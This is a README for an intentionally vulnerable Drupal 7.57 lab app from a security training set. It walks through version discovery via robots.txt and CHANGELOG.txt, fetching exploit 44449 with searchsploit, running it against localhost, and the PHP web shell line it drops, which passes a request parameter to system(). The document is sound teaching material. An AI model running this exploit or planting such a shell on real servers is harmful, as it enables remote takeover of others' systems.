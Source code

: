 # Cimentech

<p align="center">
    <img src="images/attack1.png"/>
</p>

Cimentech is a simple web application built with Drupal that contains an example of a component with a known vulnerabilty and it's main goal is to demonstrate how an attacker could exploit it.

## Index

- [Definition](#what-does-it-mean-to-use-a-component-with-known-vulnerabilities)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What does it mean to use a component with known vulnerabilities?

Components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts.

The main goal of this app is to discuss how **Using Components With Known Vulnerabilities** can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a9/cimentech
```

```sh
make install
```

Then simply visit [localhost:80][App] ! 😆

## Get to know the app 🏗

To properly understand how this application works, you could:

- Visit it's homepage!

## Attack narrative

Now that you know the purpose of this app, what could possibly go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or it's users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Use of a vulnerable Drupal version allows for remote code execution


It's possible to reach the server's web application from the standard HTTP port 80, as shown by the image below:

<img src="images/attack1.png" align="center"/>

Afterwards, by having a look at the `/robots.txt` file, it's possible to find the `CHANGELOG.txt` file in the `Disallow` field, as depicted by the image below:

<img src="images/attack2.png" align="center"/>

When accessed, an indication of the version of the Content Management System (Drupal) can be found, as shown below:

<img src="images/attack3.png" align="center"/>

Having the CMS version, it's possible to check on [exploit-db][3] if there are any exploits associated with that version, in this case, Drupal 7.57. The results of the search are depicted on the image below:

<img src="images/attack4.png" align="center"/>

By using [searchsploit](https://www.exploit-db.com/searchsploit), an attacker could also find this same result via terminal. To install it, simply type the following in your OSX terminal (keep in mind it might trigger your anti-virus software) :

```sh
brew install exploitdb
```

Then simply search for the version of the CMS found:

```sh
searchsploit drupal 7.
```

If you are using OSX, this command will help you to copy the exploit to your `/tmp` folder:

```
cp /usr/local/opt/exploitdb/share/exploit-database/exploits/php/webapps/44449.rb /tmp
```

## 🔥

Running the malicious Ruby code, we have evidence that a remote code execution is possible on the web server, using the following commands as shown below:

```sh
ruby /tmp/44449.rb http://localhost
```

<img src="images/attack5.png" align="center"/>

The exploit works by adding into the server a malicious `s.php`, which allows remote code execution on it via following malicious content: 

```php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```

Using the exploit's "fake shell", we can type a command, such as `whoami`, to verify that we indeed have a RCE on the server, as shown by the image:

<img src="images/attack6.png" align="center"/>

## Secure this app

How would you migitate this vulnerability? After your changes, an attacker should not be able to:

* Execute code remotely through the exploit above

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3ACimentech)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:80
[secDevLabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a9/Cimentech
[3]: https://www.exploit-db.com/
